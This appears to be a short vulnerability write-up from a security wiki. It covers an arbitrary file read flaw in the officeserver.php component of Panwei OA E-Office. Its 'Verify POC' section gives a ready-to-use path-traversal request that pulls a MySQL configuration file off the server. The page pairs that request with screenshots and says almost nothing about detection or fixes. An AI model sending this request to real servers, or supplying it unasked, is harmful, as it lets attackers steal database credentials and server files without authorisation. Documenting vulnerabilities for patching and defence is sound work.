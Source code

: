 # Panwei OA E-Office officeserver.php arbitrary file reading vulnerability

## Vulnerability Description

There is a vulnerability to read any file on the Panwei OA E-Office officeserver.php file. The attacker can download any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA E-Office</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383-20220313185607234.png)

Verify POC

```javascript
/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646044472614-5b3e654f-bde4-44e4-81b5-184c21585029.png)